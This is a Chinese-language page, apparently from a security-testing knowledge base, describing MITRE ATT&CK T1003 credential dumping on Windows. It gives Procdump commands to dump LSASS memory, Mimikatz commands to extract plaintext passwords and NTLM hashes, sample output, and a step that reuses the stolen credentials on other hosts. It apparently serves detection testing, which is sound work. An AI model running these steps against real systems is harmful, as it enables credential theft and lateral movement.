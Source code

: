 # T1003-Win-Procdump明文凭证

## 描述

凭据导出（CredentialDumping,MITREATT&CKT1003）是指攻击者从操作系统或软件中提取登录凭据（明文密码或哈希）以进行横向移动或访问受限资源。Windows系统中，用户登录后，凭据存储在本地安全机构子系统服务（LSASS）进程内存中。攻击者可通过工具如Procdump转储LSASS进程内存，并在本地使用Mimikatz等工具提取明文密码或哈希。此技术利用SecuritySupportProviderInterface（SSPI）相关的安全支持提供商（SSP），如MSV、WDigest、Kerberos和CredSSP，获取存储的凭据。成功提取凭据后，攻击者可用于权限提升、持久化或进一步攻击。

## 测试案例

**测试环境**：
- 系统：WindowsServer2008R2/2016或Windows7/10
- 工具：Procdump（Sysinternals）、Mimikatz
- 要求：本地管理员权限、启用Sysmon日志、域环境（可选，lab.local）
- 用户：Administrator（测试账户）

**测试准备**：
1. 下载Procdump（<https://docs.microsoft.com/en-us/sysinternals/downloads/procdump>）和Mimikatz（<https://github.com/gentilkiwi/mimikatz>）。
2. 安装Sysmon并配置事件ID1（进程创建）、10（进程访问）、11（文件操作）。
3. 启用Windows安全日志审计（组策略：计算机配置>策略>Windows设置>安全设置>本地策略>审核策略>进程跟踪）。
4. 确保目标系统有活跃用户会话（凭据存储在LSASS）。

**测试步骤**：
1. **使用Procdump转储LSASS进程内存**（目标主机，管理员权限）：
   ```cmd
   procdump64.exe-malsass.exelsass_dump.dmp
   ```
   预期输出：
   ```
   ProcDumpv8.0-Writesprocessdumpfiles
   [13:42:47]Dump1initiated:lsass_dump.dmp
   [13:42:50]Dump1writing:Estimateddumpfilesizeis50MB.
   [13:42:51]Dump1complete:50MBwrittenin3.3seconds
   ```
2. **将转储文件传输到本地分析系统**（通过SMB、FTP等）。
3. **使用Mimikatz提取凭据**（本地系统）：
   ```cmd
   mimikatz.exe"sekurlsa::minidumplsass_dump.dmp""sekurlsa::logonpasswords"exit
   ```
   预期输出：
   ```
   AuthenticationId:0;999(00000000:000003e7)
   Session:Interactivefrom1
   UserName:Administrator
   Domain:LAB
   LogonServer:DC
   LogonTime:2025-06-1713:40:00
   SID:S-1-5-21-...
   msv:
     [00000003]Primary
       *Username:Administrator
       *Domain:LAB
       *NTLM:<NTLMHash>
       *SHA1:<SHA1Hash>
   wdigest:
     *Username:Administrator
     *Domain:LAB
     *Password:Password123
   ```
4. **验证提取的凭据**：
   使用提取的密码（如Password123）或哈希尝试登录其他系统。
